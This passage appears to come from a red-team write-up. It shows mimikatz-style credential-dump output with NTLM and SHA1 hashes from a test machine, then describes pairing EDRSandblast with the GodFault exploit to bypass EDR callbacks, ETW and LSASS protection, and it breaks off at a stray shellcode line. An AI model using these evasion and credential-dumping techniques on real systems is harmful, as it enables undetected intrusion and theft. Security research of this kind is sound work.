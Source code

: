 ```

Authentication Id : 0 ; 1276576 (00000000:00137aa0)
Session           : Interactive from 1
User Name         : administrator1
Domain            : TestMachine4
Logon Server      : TestMachine4
Logon Time        : 25-08-2023 14:40:22
SID               : S-1-5-21-3554741335-746861664-1298996758-500
        msv :
         [00000003] Primary
         * Username : administrator1
         * Domain   : TestMachine4
         * NTLM     : 1dafe71b6fd9a0e1b68106cd0204eadd
         * SHA1     : 4f91a429b36ec0458422b9f8e83b028a190aff90
         * DPAPI    : 4f91a429b36ec0458422b9f8e83b028a
        tspkg :
        wdigest :
         * Username : administrator1
         * Domain   : TestMachine4
         * Password : (null)
        kerberos :
         * Username : administrator1
         * Domain   : TestMachine4
         * Password : (null)
        ssp :
        credman :
        cloudap :

[...snip...]
```

<div style="page-break-after: always;"></div>

----

<a name="using-exploits-instead-of-vulnerable-signed-drivers"></a>
# Using Exploits instead of Vulnerable Signed Drivers

<a name="binary-execution-against-edr-mde-edrsandblast-godfault"></a>
## Binary execution against EDR (MDE) - EDRSandblast-GodFault

[EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast) is a tool that leverages a vulnerable signed driver (`RTCore64.sys`) to bypass EDR Kernel Routine Callbacks, Object Callbacks, ETW tracing and LSASS protections. It includes both userland and kernelmode techniques  to evade monitoring.

It is possible to perform the same functionality as the vulnerable signed driver using the [GodFault exploit](https://github.com/gabriellandau/PPLFault#godfault).

Compiling and analysing for signatures we find that EDRSandblast is detected.


[+]: Shellcode located at c7160